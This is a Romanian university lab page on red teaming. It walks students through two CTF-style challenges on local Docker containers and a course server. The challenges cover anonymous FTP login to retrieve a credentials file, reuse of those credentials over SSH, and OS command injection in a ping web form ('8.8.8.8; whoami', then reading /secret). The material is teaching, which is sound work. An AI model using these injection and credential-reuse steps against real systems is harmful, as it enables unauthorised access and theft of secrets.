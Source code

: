 ## Red Team

**Red Team** este acea echipă de specialiști care trebuie să gândească asemeni unui atacator.
Echipa este fie internă companiei în care activează, fie externă și activează la cererea companiei ce cumpară serviciile lor.
Scopul lor este să emuleze atacuri, să documenteze tot procesul și apoi să propună modalități de îmbunătățire a securității.

Este o modalitate **legală** pentru specialiști să își pună în practică cunoștințele și să ajute în același timp la securizarea diferitelor entități.

O parte din activitățile pe care **Red Team** le poate efectua sunt:

- Securitate fizică
  - Încearcă să intre în clădire, să fure dispozitive, să păcălească angajați
- Dumpster Diving
  - Caută în gunoi documente sau postit-uri cu parole
- Social Engineering
  - Phishing
  - Email-uri malițioase
- OSINT
  - Inventarierea sistemelor companiei
  - Scanarea sistemelor companiei
  - Verificare dacă emailurile companiei sunt compromise
- Exploatare activă a sistemelor
  - Utilizarea exploit-urilor publice
  - Inspecție manuală a serviciilor expuse

### Activități practice

Intrați în directorul `support/red-team/` și parcurgeți exercițiile de mai jos.

1. Accesați directorul `anonymous/remote/` și rulați comanda `make run`.
   Comanda va lansa în execuție un container `Docker` aferent challenge-ului `anonymous`.

   Containerul expune două porturi importante, și anume `10021` și `10022`.
   Portul `10021` expune serviciul `FTP` iar Portul `10022` expune serviciul `SSH`.
   Prima dată vom interacționa cu serviciul `FTP`.

   Puteți interacționa cu serviciul `FTP` folosind comanda:

   ```
   $ ftp 0.0.0.0 10021
   ```

   Serverul are funcționalitatea de `anonymous login` activată.
   Acest lucru este o practică greșită de aproape fiecare dată și trebuie evitată.
   Se poate folosi doar în cazurile în care vrem să expunem **în mod public** fișiere accesibile fără restricții.

   Pentru mai multe detalii, accesați secțiunea `What is anonymous FTP` de la următorul link:

   - [How to Use Anonymous FTP](https://www.rfc-editor.org/rfc/rfc1635.html)

   Utilizatorul `anonymous` este un utilizator limitat făcut cu scopul de a oferi acces public unor anumite resurse.
   Informația esențială din resursa indicată este că utilizatorul `anonymous` acceptă orice parola.

   Drept urmare, putem folosi următoarea succesiune de acțiuni în linie de comandă pentru a ne conecta la serverul ce rulează local:

   ```
   $ ftp 0.0.0.0 10021
   # introduceti manual: user: anonymous
   # introduceti manual: password: pass
   ```

   Rezultatul ar trebui să fie:

   ```
   Connected to 0.0.0.0.
   220 (vsFTPd 3.0.3)
   Name (0.0.0.0:long): anonymous
   331 Please specify the password.
   Password: 
   230 Login successful.
   Remote system type is UNIX.
   Using binary mode to transfer files.
   ftp>
   ```

   Pentru a lista fișierele la care avem acces, folosiți comanda `passive on` urmată de comanda `ls`.
   Rezultatul ar trebui să fie:

   ```
   ftp> passive on
   Passive mode: on; fallback to active mode: off.
   ftp> ls
   229 Entering Extended Passive Mode (|||65455|)
   150 Here comes the directory listing.
   -rw-r--r--    1 0        0              27 Oct 31 14:21 credentials.txt
   226 Directory send OK.
   ftp>
   ```

   Observăm că serverul expune fișierul `credentials.txt`.
   Deseori programatorii uită ce fișiere lasă publice și se pot ajunge la situații nedorite.

   Cum accesul la fișier este nerestricționat, acesta poate fi downloadat folosind comanda `get credentials.txt`.
   Rezultatul ar trebui să fie:

   ```
   ftp> get credentials.txt
   local: credentials.txt remote: credentials.txt
   229 Entering Extended Passive Mode (|||65437|)
   150 Opening BINARY mode data connection for credentials.txt (27 bytes).
   100% |******************************************************************************************************************************************|    27        0.42 KiB/s    00:00 ETA
   226 Transfer complete.
   27 bytes received in 00:00 (0.41 KiB/s) 
   ```

   Acum putem folosi comanda `exit` pentru a închide conexiunea cu serverul `FTP`.
   Rezultatul ar trebui să fie:

   ```
   ftp> exit
   221 Goodbye.
   ```

   Acum avem local fișierul `credentials.txt` al cărui conținut îl putem expune cu următoarea comandă:

   ```
   $ cat credentials.txt
   ```

   Rezultatul ar trebui să fie:

   ```
   $ cat credentials.txt
   ctf:anonymous-account-pass
   ```

   Cea mai des folosită sintaxă de precizare a credențialelor este de forma `username:parola`.
   Observăm că asta conține și fișierul nostru.

   Acum putem încerca să folosim credențialele pentru a ne loga prin intermediul `SSH`.
   Vom face acest lucru cu utilizatorul `ctf` și parola `anonymous-account-pass`.
   Comanda folosită este:

   ```
   ssh ctf@0.0.0.0 -p 10022
   # introducem manual parola `anonymous-account-pass`
   # introducem manual `yes` pentru a continua conectarea atunci cand suntem intrebati
   ```

   Rezultatul ar trebui să fie:

   ```
   $ ssh ctf@0.0.0.0 -p 10022
   The authenticity of host '[0.0.0.0]:10022 ([0.0.0.0]:10022)' can't be established.
   ED25519 key fingerprint is SHA256:r4/eDTkhYoYa8fgSaLMUsyQJAGsSaq+5rX2FGAB0CJc.
   This key is not known by any other names
   Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
   Warning: Permanently added '[0.0.0.0]:10022' (ED25519) to the list of known hosts.
   ctf@0.0.0.0's password: 
   Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-52-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

   This system has been minimized by removing packages and content that are
   not required on a system that users do not log into.

   To restore this content, you can run the 'unminimize' command.

   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.


   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.

   ctf@03ca22e3acdb:~$
   ```

   Listați conținutul fișierului `secret` disponibil la calea `/home/ctf/secret`.

   Odată ce aveți un input care funcționează corespunzator, încercați același input și la adresa `141.85.224.104:10021`.

1. Accesați directorul `pingme/remote/` și rulati comanda `make run`.
   Comanda va lansa în execuție un container `Docker` aferent challenge-ului `pingme`.
   O aplicație web minimală este expusă pe portul `10002` al mașinii locale.

   Accesați `http://0.0.0.0:10002/index.php` pentru a interacționa cu aplicația.
   Observați că aplicația execută comanda `ping` către o adresă IP dată de utilizator.

   Putem presupune că aplicația execută într-o linie de comandă pe server următoarea comandă:

   ```
   $ ping <input>
   ```

   Unde `<input>` este orice introduce utilizatorul în câmpul din pagină.
   În consecință, un utilizator al aplicatiei **injecteaza comenzi** direct într-o linie de comandă aflată pe un server la distanță.

   Cunoscând faptul că operatorul `;` delimitează comenzi și permite rularea mai multor comenzi într-o singură linie, putem folosi `8.8.8.8; whoami` ca și input.
   În acest fel, comenzile care s-ar executa pe server conform presupunerilor noastre sunt:

   ```
   $ ping 8.8.8.8; whoami
   ```

   Validați presupunerile anterioare contra aplicației expuse pe `0.0.0.0:10002`.

   Scopul este să accesați fișierul `/secret` de pe server.
   Pentru a accesa acest fișier, folosiți utilitarul `cat` și faptul că aveți informația că fișierul căutat se află sub calea `/secret`.

   Odată ce aveți un input care funcționează corespunzător, încercați același input și la adresa `141.85.224.104:10002`.

### Quiz

[Quiz](../quiz/red-team-quiz.md)
